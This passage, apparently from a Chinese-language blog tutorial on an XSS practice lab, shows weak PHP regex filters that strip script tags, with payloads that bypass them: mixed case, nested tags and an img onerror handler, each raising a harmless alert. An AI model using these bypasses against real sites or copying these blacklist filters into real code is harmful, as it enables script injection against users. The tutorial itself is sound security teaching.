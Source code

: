 


 绕过技巧：可以使用大小写绕过  <scripT>alert('hack')</scripT>



![](https://img-blog.csdn.net/20180909082430512?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



**二：不区分大小写过滤标签**



先放上源代码



这个和上面的代码一模一样，只不过是过滤的时候多加了一个 i ，以不区分大小写



```
$name=preg_replace("/<script>/i","",$name);    //不区分大小写过滤 <script>      
$name=preg_replace("/<\/script>/i","",$name);  //不区分大小写过滤 </script>
```




 绕过技巧：可以使用嵌套的script标签绕过   <scr<script>ipt>alert('hack')</scr</script>ipt>



![](https://img-blog.csdn.net/2018090908271884?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



**三：不区分大小写，过滤之间的所有内容**



先放上源代码



这个和上面的代码一模一样，只不过是过滤的时候过滤条件发生了变化 



```
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] ); //过滤了<script  及其之间的所有内容
```




虽然无法使用<script>标签注入XSS代码，但是可以通过img、body等标签的事件或者 iframe 等标签的 src 注入恶意的 js 代码。



payload：  <img src=1 οnerrοr=alert('hack')>



![](https://img-blog.csdn.net/20180916092039141?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



我们可以输入 <img src=1 οnerrοr=alert('hack')>     ，然后看看页面的变化
